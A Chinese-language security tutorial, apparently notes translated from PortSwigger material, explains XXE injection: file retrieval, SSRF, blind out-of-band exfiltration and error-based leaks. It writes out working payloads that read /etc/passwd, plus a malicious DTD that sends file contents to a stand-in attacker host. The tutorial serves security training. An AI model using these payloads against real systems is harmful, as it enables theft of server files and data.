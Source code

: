 # XML 外部实体 (XXE) 注入

XML 外部实体注入（也称为 XXE）是一种 Web 安全漏洞，允许攻击者干扰应用程序对 XML 数据的处理。它通常允许攻击者查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

[在某些情况下，攻击者可以通过利用 XXE 漏洞执行服务器端请求伪造(SSRF)](obsidian://open?vault=PortSwigger&file=9.Server-side%20request%20forgery(SSRF)) 攻击 来升级 XXE 攻击以破坏底层服务器或其他后端基础设施。

## 利用XXE检索文件

要执行从服务器文件系统中检索任意文件的 XXE 注入攻击，您需要通过两种方式修改提交的 XML：

-   引入（或编辑）一个`DOCTYPE`元素，该元素定义包含文件路径的外部实体。
-   编辑应用程序响应中返回的 XML 中的数据值，以使用定义的外部实体。

例如，假设购物应用程序通过向服务器提交以下 XML 来检查产品的库存水平：

>< ?xml version="1.0" encoding="UTF-8"?> 
>< stockCheck>< productId>381< /productId>< /stockCheck>

该应用程序对 XXE 攻击没有特别的防御措施，因此您可以`/etc/passwd`通过提交以下 XXE 有效负载来利用 XXE 漏洞检索文件：

>< ?xml version="1.0" encoding="UTF-8"?> 
><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
>< stockCheck>< productId>&xxe;< /productId>< /stockCheck>

此 XXE 有效负载定义了一个外部实体`&xxe;`，其值为`/etc/passwd`文件的内容，并使用该`productId`值内的实体。这会导致应用程序的响应包含文件的内容：

>Invalid product ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
>bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

## 利用 XXE 进行 SSRF 攻击

除了检索敏感数据外，XXE 攻击的另一个主要影响是它们可用于执行服务器端请求伪造 (SSRF)。这是一个潜在的严重漏洞，可以诱导服务器端应用程序向服务器可以访问的任何 URL 发出 HTTP 请求。

要利用 XXE 漏洞执行[SSRF 攻击](https://portswigger.net/web-security/ssrf)，您需要使用要定位的 URL 定义外部 XML 实体，并在数据值中使用定义的实体。如果您可以在应用程序响应中返回的数据值中使用定义的实体，那么您将能够从应用程序响应中的 URL 查看响应，从而获得与后端系统的双向交互。如果没有，那么您将只能执行[盲目的 SSRF](https://portswigger.net/web-security/ssrf/blind)攻击（这仍然会产生严重后果）。

在以下 XXE 示例中，外部实体将导致服务器向组织基础架构内的内部系统发出后端 HTTP 请求：

><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

## 盲目的 XXE 漏洞

有两种广泛的方法可以发现和利用盲目的 XXE 漏洞：

-   您可以触发带外网络交互，有时会在交互数据中泄露敏感数据。
-   您可以通过错误消息包含敏感数据的方式触发 XML 解析错误。

### 使用带外 ( OAST ) 技术检测盲 XXE

例如，您将定义一个外部实体，如下所示：

> <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>

有时，由于应用程序的某些输入验证或正在使用的 XML 解析器的某些强化，使用常规实体的 XXE 攻击会被阻止。在这种情况下，您可以改用 XML 参数实体

><!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`

#### 利用盲目的 XXE 将数据带外泄露

通过带外技术检测盲目的 XXE 漏洞非常好，但实际上并不能说明如何利用该漏洞。攻击者真正想要实现的是泄露敏感数据。这可以通过盲目的 XXE 漏洞来实现，但它涉及攻击者在他们控制的系统上托管恶意 DTD，然后从带内 XXE 有效负载中调用外部 DTD。
恶意 DTD 泄露文件内容的示例`/etc/passwd`如下：

><!ENTITY % file SYSTEM "file:///etc/passwd"> 
><!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> 
>%eval; 
>%exfiltrate;

此 DTD 执行以下步骤：
-   定义一个名为 的 XML 参数实体`file`，其中包含`/etc/passwd`文件的内容。
-   定义一个名为 的 XML 参数实体`eval`，其中包含另一个名为 的 XML 参数实体的动态声明`exfiltrate`。该`exfiltrate`实体将通过向攻击者的 Web 服务器发出 HTTP 请求来评估，该请求包含`file`URL 查询字符串中的实体值。
-   使用`eval`实体，这会导致执行实体的动态声明`exfiltrate`。
-   使用`exfiltrate`实体，以便通过请求指定的 URL 来评估其值。

然后，攻击者必须将恶意 DTD 托管在他们控制的系统上，通常是将其加载到他们自己的网络服务器上。例如，攻击者可能会在以下 URL 提供恶意 DTD：

>http://web-attacker.com/malicious.dtd

最后，攻击者必须向易受攻击的应用程序提交以下 XXE 有效负载：

><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>

这个 XXE 有效负载声明了一个名为的 XML 参数实体`xxe`，然后使用 DTD 中的实体。这将导致 XML 解析器从攻击者的服务器获取外部 DTD 并内联解释它。然后执行恶意 DTD 中定义的步骤，并将`/etc/passwd`文件传输到攻击者的服务器。

### 利用盲目 XXE 通过错误消息检索数据

利用盲目 XXE 的另一种方法是触发 XML 解析错误，其中错误消息包含您希望检索的敏感数据。如果应用程序在其响应中返回结果错误消息，这将是有效的。
您可以使用恶意外部 DTD 触发包含`/etc/passwd`文件内容的 XML 解析错误消息，如下所示：

><!ENTITY % file SYSTEM "file:///etc/passwd"> 
><!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> 
>%eval; 
>%error;

此 DTD 执行以下步骤：
-   定义一个名为 的 XML 参数实体`file`，其中包含`/etc/passwd`文件的内容。
-   定义一个名为 的 XML 参数实体`eval`，其中包含另一个名为 的 XML 参数实体的动态声明`error`。将`error`通过加载名称包含实体值的不存在文件来评估`file`实体。
-   使用`eval`实体，这会导致执行实体的动态声明`error`。
-   使用`error`实体，以便通过尝试加载不存在的文件来评估其值，从而导致错误消息包含不存在的文件的名称，即文件的内容`/etc/passwd`。
调用恶意外部 DTD 将导致如下错误消息：

>java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
>bin:x:2:2:bin:/bin:/usr/sbin/nologin ...

## 通过重新利用本地 DTD 来利用盲 XXE

当带外交互被阻止时,不能通过带外连接泄露数据，也不能从远程服务器加载外部 DTD。
在这种情况下，由于 XML 语言规范中的漏洞，仍然可能触发包含敏感数据的错误消息。如果文档的 DTD 混合使用内部和外部 DTD 声明，则内部 DTD 可以重新定义在外部 DTD 中声明的实体。发生这种情况时，对在另一个参数实体的定义中使用 XML 参数实体的限制就会放宽。

例如，假设在服务器文件系统的位置有一个 DTD 文件`/usr/local/app/schema.dtd`，并且这个 DTD 文件定义了一个名为 的实体`custom_entity`。攻击者可以通过提交混合 DTD 来触发包含`/etc/passwd`文件内容的 XML 解析错误消息，如下所示：

><!DOCTYPE foo [ 
><!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> 
><!ENTITY % custom_entity ' 
><!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
><!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
>&#x25;eval; 
>&#x25;error; 
>'> 
>%local_dtd; 
>]>

此 DTD 执行以下步骤：

-   定义一个名为 的 XML 参数实体`local_dtd`，其中包含存在于服务器文件系统上的外部 DTD 文件的内容。
-   重新定义名为 的 XML 参数实体`custom_entity`，该实体已在外部 DTD 文件中定义。该实体被重新定义为包含已经描述[的基于错误的 XXE 漏洞利用](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages)`/etc/passwd`，用于触发包含文件内容的错误消息。
-   使用`local_dtd`实体，以便解释外部 DTD，包括`custom_entity`实体的重新定义值。这会产生所需的错误消息。

### 定位现有 DTD 文件以重新利用

由于这种 XXE 攻击涉及重新利用服务器文件系统上的现有 DTD，因此关键要求是找到合适的文件。这实际上非常简单。因为应用程序会返回 XML 解析器抛出的任何错误消息，所以您可以轻松地枚举本地 DTD 文件，只需尝试从内部 DTD 中加载它们。

例如，使用 GNOME 桌面环境的 Linux 系统通常在`/usr/share/yelp/dtd/docbookx.dtd`. 您可以通过提交以下 XXE 有效负载来测试此文件是否存在，如果该文件丢失，则会导致错误：

><!DOCTYPE foo [ 
><!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; 
>]>













